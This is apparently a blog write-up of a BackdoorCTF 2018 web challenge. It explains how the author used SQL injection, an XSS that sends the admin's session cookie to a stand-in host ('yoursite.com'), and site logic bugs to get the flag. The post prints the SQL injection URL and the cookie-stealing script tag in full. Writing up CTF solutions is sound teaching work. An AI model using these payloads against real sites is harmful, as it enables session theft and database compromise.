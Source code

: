 ```yaml
---
layout: post
title: BackdoorCTF 2018 - DIGILANT-ADMIN
tags: CTF
---
```

Here's my solution for the DIGILANT-ADMIN challenge of the 2018 BackdoorCTF. I'm not sure wether I got the flag the intended way since there has been quite a few technical problems during the event, but here's how I did it anyway.

First of all, this was the challenge's description :  
![](https://i.imgur.com/vemjbMy.png)

Once on the website, you could create an account by providing an email adress, and then log in with the OTP sent to that email adress.   
![](https://i.imgur.com/Bch0ZOm.png)

Once logged in, the main thing you could do was to post a new message :  
![](https://i.imgur.com/qY08mZY.png)
And report messages to the admin :  
![](https://i.imgur.com/KOyK8oe.png)

The other interesting thing was the "Giveme flag" page, which stated :  
```No admin No flag```

So my first idea was of course to try and find an exploitable XSS to log in as admin. I tried a few things, but it wasn't executing on the url where you could see your post :  
`http://51.15.73.163/DIGILANT-ADMIN/posts.php?id=000af61e777d34ab`  
So I tried a few other things, and I found that the id parameter was vulnerable to an SQL injection and to an XSS injection :  
![](https://i.imgur.com/2pIbQat.png)  
I tried to steal the admin cookie with that XSS, but the bot wasn't clicking on my link. And the results of the SQL injections were also confusing at first since I couldn't read them. After testing a few things, I found out why : the results were decrypted as base64 before being returned. So the easy fix was to base64 encode it, as such :  
![](https://i.imgur.com/zXCRAmp.png)  
Since I wasn't successfull with the XSS, I decided to try exploiting the SQL to get the admin pass and OTP. With the help of SQLMap, I dumped the content of the database :  
![](https://i.imgur.com/87bPuIJ.png)  
  etc.  
![](https://i.imgur.com/TlhkZJE.png)  
etc.  
And in theory I could have been done since I could have just logged in as "admin" and got the OTP directly from the database :  
```sql
http://51.15.73.163/DIGILANT-ADMIN/posts.php?id=-1' UNION ALL SELECT to_base64(otp) FROM OTP WHERE umail='2d3686a381fa880ddab@gmail.com' -- - 
```
But the problem was that I had no way to know which user was the admin. As you can see on the screenshot above there was many "random hash" accounts, and none of the accounts with the name "admin" in them was the real one. After trying a few of them, I decided to find another way rather than stupidly trying them all.  
In the dump of the database, I noticed that many people had reported URLs like this :  
![](https://i.imgur.com/UQigMAO.png)  
That gave me a big hint. I had already noticed that HTML/JS was being executed on the homepage, and upon closer inspection of the code it turned out that there was a way to exploit an XSS in your posts:  
![](https://i.imgur.com/m3cyYe3.png)  
You just had to access your post's URL with `&full=true` appended to it :  
![](https://i.imgur.com/L8RjsKN.png)  

I made a new one with the standard 
```javascript
<script>location.replace('yoursite.com?cookie='+document.cookie)</script>
```
injection, and I got the admin's PHPSESSID on requestbin :  
![](https://i.imgur.com/6kwpoqS.png)  

I modified my cookie, but got kicked out :
```Login attempted from another IP address. Login again```  
Which was a problem since I still had no idea what the admin username was. But it turned out that if you tried logging in again with any account, you could briefly see the admin's name:  
![](https://i.imgur.com/gFq9PJw.png)  
I'm not sure wether this was intended or not. All I had to do then was to login with that username and get the OTP from the database, as shown before. But that wasn't even necessary, because if you entered a wrong OTP, the website would just show you right one (here I just put "12" in):  
![](https://i.imgur.com/sBZPX8Z.png)  
Not sure if that was a bug or not either, but you could then just log in like that. And get the flag from the "Giveme flag" page :  
![](https://i.imgur.com/1jyENgf.png)  